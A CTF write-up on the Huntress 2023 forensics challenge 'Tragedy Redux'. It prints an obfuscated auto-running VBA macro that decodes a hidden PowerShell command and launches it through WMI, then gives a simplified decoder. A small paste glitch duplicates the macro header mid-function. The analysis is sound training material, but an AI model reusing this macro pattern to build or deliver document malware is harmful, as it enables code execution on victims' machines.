 ```yaml
---
title: "Tragedy (Redux)"
date: 2023-10-15T13:11:20-10:01
#draft: true
tags: ['CTF','Writeups', 'Forensics', 'Medium']
---
```

 
# [Home](https://jjolley91.github.io/blog/) >

###  [Huntress CTF](https://jjolley91.github.io/blog/huntress_ctf_2023) >  [Medium Challenges](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/opendir)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/rock_paper_psychic) 

### We found this file as part of an attack chain that seemed to manipulate file contents to stage a payload. Can you make any sense of it?


For this challenge we are given the file "tragedy_redux.7z" to download, and told the password is 'infected'.

### Note: Tragedy began with tragedy...In the original version of this challenge, once you unzipped the file the flag.txt was immediately readable. They Fixed the error and re-released the challenge as 'tragedy-redux'.

Once you extract the file, you are given the file 'tragedy_redux'. Running the file command on this reveals that it is still a compressed archive, so you need to unzip it again:
```bash 
unzip tragedy_redux
```
This will leave you with several files and directories to sift through. Eventually, we came across a file 'vbaProject.bin' which we were able to parse using [olevba](https://github.com/decalage2/oletools/wiki/olevba) from Didlier Stevens.
```bash 
sudo -H pip install -U oletools[full]
```
Then 
```bash
olevba vbaProject.bin
```
From this, we get a VBA macro:
```vb
VBA MACRO NewMacros.bas 
in file: vbaProject.bin - OLE stream: 'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Function Pears(Beets)
    Pears = Chr(Beets - 17)
End Function

Function SVBA MACRO NewMacros.bas 
in file: vbaProject.bin - OLE stream: 'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Function Pears(Beets)
    Pears = Chr(Beets - 17)
End Function

Function Strawberries(Grapes)
    Strawberries = Left(Grapes, 3)
End Function

Function Almonds(Jelly)
    Almonds = Right(Jelly, Len(Jelly) - 3)
End Function

Function Nuts(Milk)
    Do
    OatMilk = OatMilk + Pears(Strawberries(Milk))
    Milk = Almonds(Milk)
    Loop While Len(Milk) > 0
    Nuts = OatMilk
End Function
Function Bears(Cows)
    Bears = StrReverse(Cows)
End Function

Function Tragedy()
    
    Dim Apples As String
    Dim Water As String

    If ActiveDocument.Name <> Nuts("131134127127118131063117128116") Then
        Exit Function
    End If
    
    Apples = "129128136118131132121118125125049062118127116049091088107132106104116074090126107132106104117072095123095124106067094069094126094139094085086070095139116067096088106065107085098066096088099121094101091126095123086069106126095074090120078078"
    Water = Nuts(Apples)


    GetObject(Nuts("136122127126120126133132075")).Get(Nuts("104122127068067112097131128116118132132")).Create Water, Tea, Coffee, Napkin

End Function

Sub AutoOpen()
    Tragedy
End Sub
```

The script automatically executes the Tragedy function within the AutoOpen() subroutine when the document is opened. At a high level, it checks for a specific document name, assigns a long string to variable Apples, then feeds Apples to a series of nested functions that decode the string into readable output that would contain the flag.

Running this script as-is was tedious due to its checks and difficulties in setting up the correct environment. Eventually, we identified its core logic and simplified the code enoough to be able to run reliably and with ease:

```vb 
Module VBModule
    Sub Main()
        Dim Milk As String
        Dim Oatmilk As String
        Milk = "129128136118131132121118125125049062118127116049091088107132106104116074090126107132106104117072095123095124106067094069094126094139094085086070095139116067096088106065107085098066096088099121094101091126095123086069106126095074090120078078"
        Do
        Oatmilk = Oatmilk + Chr((Left(Milk, 3)) - 17)
        Milk = Right(Milk, Len(Milk) - 3)
        Loop While Len(Milk) > 0
        Console.WriteLine(Oatmilk)
    End Sub
End Module
```
We utilized an [online compiler](https://onecompiler.com/vb), and recieved an output that was base64 encoded. We decoded the output and retrieved the flag!

![tragedy](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/tragedy.png?raw=true)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/opendir)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/rock_paper_psychic)